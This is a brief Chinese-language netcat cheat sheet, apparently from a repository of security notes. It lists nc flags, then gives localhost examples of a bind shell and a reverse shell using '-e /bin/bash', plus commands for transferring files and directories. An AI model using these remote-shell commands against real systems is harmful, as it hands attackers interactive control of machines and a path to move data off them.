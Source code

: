 # nc

nc 牛逼 nc 牛逼 nc 牛逼

### 命令格式

```shell
nc -lv [端口]
-u 指定nc使用UDP协议，默认为TCP
-e 指定对应的应用程序
-l 用于指定nc将处于侦听模式。指定该参数，则意味着nc被当作server，侦听并接受连接，而非向其它地址发起连接
-v 输出交互或出错信息
```

### 正向反弹shell

```shell
nc -lvp 7777 -e /bin/bash     #命令执行
nc 127.0.0.1 7777    #发送命令
```

### 反向反弹shell

```shell
nc -lvp 7777    #命令执行
nc -e /bin/bash 127.0.0.1 7777    #发送命令
```

### 上传文件

```shell 
nc -dlp 7777 < test.sh			#发送文件
nc 127.0.0.1 7777 > test.sh			#接收文件
```

### 目录传输

```shell
tar -cvf - <传输目录> | nc -l 7777		#发送目录
nc -n 127.0.0.1 7777 | tar -xvf -			#接收目录
```